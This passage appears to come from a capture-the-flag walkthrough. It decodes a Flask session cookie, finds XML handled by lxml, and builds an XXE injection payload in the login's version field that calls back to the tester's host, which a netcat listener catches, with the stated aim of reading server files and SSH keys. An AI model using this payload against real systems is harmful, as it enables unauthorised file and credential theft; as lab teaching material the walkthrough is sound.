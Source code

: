 Everything is static, other than logout button. Let’s copy the user cookie and try to decode it.

```shell
🔥\> flask-unsign -d -c .eJxNjMtugzAUBX-l8roLoDQLpGyQH9QpRDbYl3gHclQIj6JgtYQo_95GaqQuRzPnXFG_DD2KruipRhFSJKOWLIXouJbgRj34cIT0UiemrRQNCzbFVvlYlDLVWL4r0uzs8Laq3OFfP-Yqi_d0SuQpNnd_Z-P1WIDlwiOhoc2-ZpnLoGm1r87QWbCMb-yL6YC8zofA8yvGS_3v728vZLBsAHNWBbysEy2qjoQF5vOx_7jIwbU6WHzF7NejF2t_Bt3kFY3Hem3S1JuCwymTu-_tFt2e0fTZjm5GkXf7AXg2VbY.YLnHlw.mO1qbhl6eiBX0Gf_SE_32eR6FSs
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+ZGVtbzwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}
```

The result has two important things. First, the server is using ‘LXML’ Python library which allows for easy handling of XML and HTML files. Second, the base64 encoded data which reveals the API version of XML.

```shell
🔥\> echo -n PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+ZGVtbzwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+ | base64 -d
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>demo</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

There is a possibility of XML External Entity (XXE) Injection.

> XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

Let’s intercept the login and add the payload.

```xml
username=%26demo_user%3b&version=1.0.0--><!DOCTYPE+foo+[<!ENTITY+demo_user+SYSTEM+"http://10.10.14.106">+]><!--
```

![Screen Shot 2021-10-09 at 07.35.02.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/3D472087-86B3-4EE9-9EC0-AA5652B2FE54_2/Screen%20Shot%202021-10-09%20at%2007.35.02.png)

Make sure to encode the special characters. Check below image.

![Screen Shot 2021-10-09 at 07.36.14.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/B18DE950-07EF-414C-B860-71B232F2B0E6_2/Screen%20Shot%202021-10-09%20at%2007.36.14.png)

In this payload we can’t inject in username field, so we call the external entity via version field and try to hit our server. If it works then we can read files and SSH keys.

Run netcat listener on port 80 and forward the request to server from burp suite.

```shell
🔥\> nc -lvnp 80
listening on [any] 80 ...
```

Once you forward the request to server it gives you response with signed cookies and it will redirect it to requested session.
